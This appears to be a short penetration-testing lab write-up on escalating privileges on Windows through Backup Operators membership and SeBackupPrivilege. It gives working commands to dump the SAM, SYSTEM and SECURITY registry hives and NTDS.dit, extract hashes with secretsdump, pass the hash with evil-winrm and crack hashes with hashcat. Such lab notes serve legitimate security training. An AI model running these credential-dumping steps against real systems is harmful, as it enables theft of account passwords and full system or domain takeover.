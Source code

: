 
I was recently doing a box where I exploited a user who had `SeBackupPrivilege` as disabled and was in the built in group `Backup Operators`.
How to exploit this? Answer by taking backups of SAM and system files or some other sensitive file or just the root/Administrative flag.

 Note I got thrown off because the `SeBackupPrivilege` was disabled this lead to me going down a rabbit hole where I learnt something interesting.

How to Enable it => Using this [application](https://github.com/giuliano108/SeBackupPrivilege/) 
Steps are given in this [article](https://pentestlab.blog/tag/sebackupprivilege/) but this did not work because the user that I logged in as did not have access to run PowerShell for some reason. So this was a road block. Regardless this is a nice tool to know about.

But what did I miss some how enumerating this user first time I missed  that this user is part of `Backup Operators group` this its self is enough I did not even need to look at backup privilege.

Taking the backup of sensitive file like SAM and system file is enough for further escalation. 

## Copy Registry Hives**

Now, copy the SAM, SYSTEM, and SECURITY files:
```
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
reg save hklm\security C:\Temp\security
```
**`HKLM` (HKEY_LOCAL_MACHINE)** is a **registry hive** in Windows. It stores system-wide settings, configurations, and security information.

Or use **robocopy**:
```
robocopy C:\Windows\System32\Config C:\Temp SAM SYSTEM SECURITY /B
```

Cracking the hashes
`impacket-secretsdump -sam sam -system system -security security LOCAL`

**Pass-the-Hash attack**
`evil-winrm -i VICTIM-IP -u Administrator -H <NTLM-HASH>`

**Crack the hashes** using `hashcat`:
`hashcat -m 1000 <HASH> /path/to/rockyou.txt --force`



Other Sensitive files
The `SECURITY` hive contains **LSA Secrets**, which can store:

- Cached credentials
- Service account passwords
- Other sensitive system information
`reg save hklm\security C:\Temp\security.save`

**If this is a Domain Controller**, `NTDS.dit` contains **hashed passwords** for all domain users.
`robocopy /b C:\Windows\NTDS C:\Temp\Backup ntds.dit`

**System Event Logs (Logs Admin Login Attempts)**
`copy /b C:\Windows\System32\winevt\Logs\Security.evtx C:\Temp\Security.evtx`
